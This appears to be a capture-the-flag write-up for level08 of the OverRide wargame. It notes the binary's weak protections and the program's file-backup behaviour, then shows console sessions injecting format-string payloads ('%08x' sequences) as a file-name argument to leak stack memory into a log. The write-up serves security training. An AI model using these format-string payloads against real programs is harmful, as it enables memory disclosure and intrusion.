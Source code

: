 # level08

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

The program take one argument: a file name. It opens the `./backups/.log` and the file pointed by the only argument. It
copies char by char the content of the argument into a new file in `./backups/` and close everything.

## Exploit

```console
level08@OverRide:~$ ./level08 `python -c 'print "%08x" * 10'` ; cat backups/.log
ERROR: Failed to open %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
LOG: Starting back up: ffffffec000000ec00400d6cffffffffffffe8c800400d960060301072617453636162206666203a
```

```console
level08@OverRide:~$ ./level08 `python -c 'print "AAAA" + "%08x" * 100'` ; cat backups/.log
ERROR: Failed to open AAAA%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
LOG: Starting back up: AAAAffffffec000000ec00400d6cffffffffffffe75c00400d960060301072617453636162204141203a6666666630303030643030346666666637656666643030343033303634373136323631363032313436363636303330333033303336363636363635363033303330333333313337333133363
```
